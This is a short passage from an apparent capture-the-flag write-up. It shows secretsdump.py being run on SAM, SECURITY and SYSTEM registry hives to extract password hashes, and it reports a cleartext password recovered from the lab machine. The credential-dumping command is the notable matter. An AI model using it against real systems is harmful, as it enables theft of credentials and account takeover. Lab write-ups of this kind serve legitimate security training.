 <img src="/img/freelancer_screenshots/Pasted image 20241106232418.png" alt="1" style="width:700px; height:auto;">
<br/>

We can use `secretsdump.py` to get the hashes.   

```bash
secretsdump.py -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive local
```

We can see an output.  

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106232558.png" alt="1" style="width:700px; height:auto;">
<br/>

A clear text password can be extracted `PWN3D#l0rr@Armessa199`.  
